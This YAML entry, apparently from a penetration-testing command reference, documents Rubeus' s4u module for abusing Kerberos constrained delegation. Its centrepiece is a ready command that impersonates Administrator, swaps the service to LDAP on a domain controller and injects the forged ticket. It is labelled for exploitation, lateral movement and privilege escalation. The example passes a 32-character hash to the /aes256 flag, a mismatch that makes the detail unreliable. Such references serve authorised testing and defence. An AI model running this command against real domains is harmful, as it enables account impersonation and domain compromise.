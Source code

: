 
---
description: |
  Rubeus' `s4u` module performs Kerberos constrained delegation attacks using the S4U2Self and S4U2Proxy protocols to impersonate users and request service tickets on their behalf. This technique abuses accounts configured with delegation privileges (msDS-AllowedToDelegateTo) to impersonate any domain user and further alter the service specified since SPNs are stored in plaintext and thus access any service on the target system as any user

  Command Reference:

  	Domain: test.local

    SPN: time/dc.test.local

    alternative service: ldap(can chose any valid services such as HTTP for remoting access)

  	Username: john$

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe s4u /user:john$ /aes256:2a3de7fe356ee524cc9f3d579f2e0aa7 /impersonateuser:Administrator /msdsspn:time/dc.test.local /altservice:ldap /ptt
items:
  - Hash
  - Username
  - target
  - service
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
  - Lateral Movement
  - Privilidge Escalation
references:
  - https://github.com/GhostPack/Rubeus
  - https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/constrained-delegation
  - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation
